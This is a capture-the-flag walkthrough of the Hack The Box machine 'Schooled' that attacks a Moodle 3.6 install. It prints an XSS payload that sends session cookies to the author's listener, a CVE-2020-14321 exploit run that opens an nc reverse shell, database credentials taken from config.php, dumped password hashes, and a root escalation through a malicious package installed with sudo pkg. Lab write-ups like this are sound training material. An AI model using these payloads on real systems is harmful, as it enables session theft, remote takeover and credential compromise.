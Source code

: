 ## Info
### Credential
 User          | Password         | Service | Note
---------------|------------------|---------|-------
phillips_manuel|                  |Moodle   |phillips_manuel@staff.schooled.htb
moodle         |PlaybookMaster2020|MySQL    |
jamie          |!QAZ2wsx          |System   |

### Web (80) 
- hostname: schooled.htb
**Moodle**
- subdomain: `moodle.schooled.htb`
- version: 3.6


### MySQL X (33060)
- The response `HY000` in the nmap result has no useful meaning. See [Error Message and Elements -- SQLSTATE](https://dev.mysql.com/doc/refman/8.0/en/error-message-elements.html).
- Connect using `mysqlsh --mx -u admin --password=admin -h $ip`.


## Path
### User
1. Got the hostname from the website.
2. The website metioned they using Moodle many times, so try to visit `moodle.schooled.htb` and get good luck.
3. Register an user.
4. `http://moodle.schooled.htb/moodle/admin/tool/dataprivacy/summary.php` has some system information, so I tried to view `http://moodle.schooled.htb/moodle/admin/tool/`, which showed a lot information, and got the version of moodle was about 3.6 in `upgrade.txt`.
5. In the announcement of the Math course, the teacher metioned he would check all students' MoodleNet Profile, so I went check on the field an found it had XSS vulnertability.
- Payload: 
```
<script>document.location='http://10.10.16.9:13338/?c='+document.cookie</script>
```
- Result: 
```
10.10.10.234 - - [12/Jul/2021 02:39:23] "GET /?c=MoodleSession=0b6vl6fppoggoakvcji6icvkgr HTTP/1.1" 200 -
INFO:root:GET request,
Path: /favicon.ico
Headers:
Host: 10.10.16.9:13338
User-Agent: Mozilla/5.0 (X11; FreeBSD amd64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://10.10.16.9:13338/?c=MoodleSession=0b6vl6fppoggoakvcji6icvkgr
```
6. Got the teacher account, but he was not manager. Found CVE-2020-14321 could allow teacher account become manager, so I used the script to become the manager and upload php file. Then I could visit `http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id` to execute command.
7. Got RCE using this command. Remember, it was a BSD machine.
```
$ python3 moodle/CVE-2020-14321.py  http://moodle.schooled.htb/moodle -c "bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.9 13337 >/tmp/f';" --cookie 4muhpe9dps0gvmb5l23eg740mg
 __     __     __   __  __   __              __  __     
/  \  /|_  __   _) /  \  _) /  \ __  /| |__|  _)  _) /| 
\__ \/ |__     /__ \__/ /__ \__/      |    | __) /__  | • by lanz

Moodle 3.9 - Remote Command Execution (Authenticated as teacher)
Course enrolments allowed privilege escalation from teacher role into manager role to RCE
                                                        
[+] Login on site: MoodleSession:4muhpe9dps0gvmb5l23eg740mg ✓
[+] Updating roles to move on manager accout: ✓
[+] Updating rol manager to enable install plugins: ✓
[+] Uploading malicious .zip file: ✓
[+] Executing bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.9 13337 >/tmp/f';: ✓
[+] Keep breaking ev3rYthiNg!!

$ nc -lvnp 13337
Listening on 0.0.0.0 13337
Connection received on 10.10.10.234 60266
sh: can't access tty; job control turned off
$ whoami
www
```
8. Found MySQL credential in `config.php`.
```
$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
);
```
9. Found common use commands at `/usr/local/bin` but not in `PATH`, including `python3`, `curl`, etc..
10. Logged in MySQL. Dumped all user credentials. Crack admin's password. Logged in as `jamie` using the cracked password `!QAZ2wsx` via SSH.
```
moodle@localhost [moodle]> select username, password, secret, lastlogin from mdl_user;
+-------------------+--------------------------------------------------------------+-----------------+------------+
| username          | password                                                     | secret          | lastlogin  |
+-------------------+--------------------------------------------------------------+-----------------+------------+
| guest             | $2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2 |                 |          0 |
| admin             | $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW |                 | 1608681411 |
+-------------------+--------------------------------------------------------------+-----------------+------------+
```
11. Gain User!
### Root
1. `jamie` can run `pkg install *` with `sudo`. So just followed GTFOBins and got root flag.
```
$ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
$ curl 10.10.16.9:13338/x-1.0.txz --output x-1.0.txz
$ sudo pkg install -y --no-repo-update ./x-1.0.txz
```

